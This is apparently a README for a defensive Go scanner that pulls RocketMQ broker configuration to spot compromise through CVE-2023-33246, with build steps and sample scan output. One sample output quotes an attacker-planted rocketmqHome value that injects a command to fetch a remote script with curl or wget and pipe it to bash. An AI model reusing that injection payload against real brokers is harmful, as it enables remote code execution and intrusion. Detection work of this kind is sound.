 # Fetch Broker Configuration

Fetch Broker Configuration will try to download the RocketMQ broker configuration in order to hunt for indicators of compromise in the `rocketmqHome` variable. The variable is used by various attackers to execute code via [CVE-2023-33246](https://nvd.nist.gov/vuln/detail/CVE-2023-33246). For additional details, see the [VulnCheck blog](https://vulncheck.com/blog/rocketmq-exploit-payloads).

## Compiling

You can use the makefile to build a docker container:

```sh
make docker
```

Or, if you have a Go build environment ready to go, just use make:

```sh
albinolobster@mournland:~/fetch-broker-conf$ make
gofmt -d -w main.go
golangci-lint run --fix main.go
GOOS=linux GOARCH=arm64 go build -o build/main_linux-arm64 main.go
```

## Usage

The tool is built on top of [go-exploit](https://github.com/vulncheck-oss/go-exploit), so there are multipe ways to provide targets to scan. A full description can be found in the project's [scanning documentation](https://github.com/vulncheck-oss/go-exploit/blob/main/docs/scanning.md). However, the following shows some examples:

### Scanning One Host

```sh
albinolobster@mournland:~/fetch-broker-conf$ ./build/main_linux-arm64 -a -e -rhost 10.9.49.143 -rport 10911 -log-json true | jq 'select(.msg == "Extracted the variable")'
{
  "time": "2023-09-05T05:27:48.567836165-04:00",
  "level": "SUCCESS",
  "msg": "Extracted the variable",
  "rocketmqHome": "/rocketmq-all-5.1.0-bin-release",
  "host": "10.9.49.143",
  "port": 10911
}
```

### Scanning Multiple Hosts

```sh
albinolobster@mournland:~/fetch-broker-conf$ ./build/main_linux-arm64 -a -e -rhosts 10.9.49.143,10.9.49.150 -rport 10911 -log-json true | jq 'select(.msg == "Extracted the variable")'
{
  "time": "2023-09-05T05:34:27.505747211-04:00",
  "level": "SUCCESS",
  "msg": "Extracted the variable",
  "rocketmqHome": "/rocketmq-all-5.1.0-bin-release",
  "host": "10.9.49.143",
  "port": 10911
}
{
  "time": "2023-09-05T05:34:27.802345043-04:00",
  "level": "SUCCESS",
  "msg": "Extracted the variable",
  "rocketmqHome": "/rocketmq-all-5.1.0-bin-release",
  "host": "10.9.49.150",
  "port": 10911
}
```


### Scanning a File of Hosts Using a Proxy

go-exploit provides the ability to scan via a provided target csv, where the csv is: `host, port, anything if ssl is enabled` (although the SSL field is ignored if -a is used). It also provides the ability to scan through a proxy. The command works like so (note that `-a` is SSL autodetection):

```sh
albinolobster@mournland:~/rocketmq-broker-conf$ ./build/main_linux-arm64 -a -e -rhosts-file /tmp/rocketmq.csv -proxy socks5://127.0.0.1:9050 -log-json true 2>/dev/null | jq 'select(.msg == "Extracted the variable")'
{
  "time": "2023-08-31T13:45:35.781849255-04:00",
  "level": "SUCCESS",
  "msg": "Extracted the variable",
  "rocketmqHome": "-c $@|sh . echo (curl -s x.x.x.x/rm.sh||wget -q -O- x.x.x.x/rm.sh)|bash;",
  "host": "x.x.x.x",
  "port": 10909
}
```
